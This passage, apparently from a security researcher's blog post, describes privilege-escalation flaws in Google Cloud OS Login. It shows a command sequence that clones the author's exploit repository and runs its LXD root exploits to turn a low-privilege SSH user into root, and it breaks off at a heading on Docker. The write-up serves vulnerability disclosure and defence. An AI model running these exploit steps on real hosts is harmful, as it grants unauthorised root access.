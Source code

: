## The vulnerabilities

For each of the examples below, we are going to assume that we are the user `lowpriv@notreal.com`. This user will be granted the IAM role of `compute.osLogin`, which has permission to SSH into our target instance of `ubuntu16` but does NOT have administrative access to the system.

Our goal will be to run `sudo id` and to see the following output:

```
uid=0(root) gid=0(root) groups=0(root)
```

### Privilege escalation via LXD

As I demonstrate in [the logon process](#the-logon-process) above, all OS Login users who authenticate via SSH are added to the local `lxd` group. On Ubuntu systems, [LXD](https://linuxcontainers.org/lxd/introduction/) is installed by default and listens on a Unix socket that grants write permissions to the `lxd` group.

Members of this group can abuse LXD via multiple methods to escalate their privileges to root. I wrote about this in great detail last year in a blog titled [Linux Privilege Escalation via LXD & Hijacked UNIX Socket Credentials](https://initblog.com/2019/lxd-root/). I've also published two working exploits in [this repository](https://gitlab.com/initstring/lxd_root).

This method of root is quick and easy, and can be done as follows:

```
# Observe we are not root
sudo id

# Initialize lxd
lxd init

# Create a container
lxc launch images:alpine/edge ecorp

# Clone my exploit repository with git
git clone https://gitlab.com/initstring/lxd_root && cd lxd_root

# Run either of the exploits
bash ./lxd_rootv1.sh ecorp      # should really work on all systems
python3 ./lxd_rootv2.py ecorp   # for systemd-based systems only

# Observe we are now root
sudo id
```

#### Video demonstration

<video width="640" height="480" controls>
  <source type="video/mp4" src="/images/post-oslogin/lxd.mp4">
</video>

### Privilege escalation via Docker
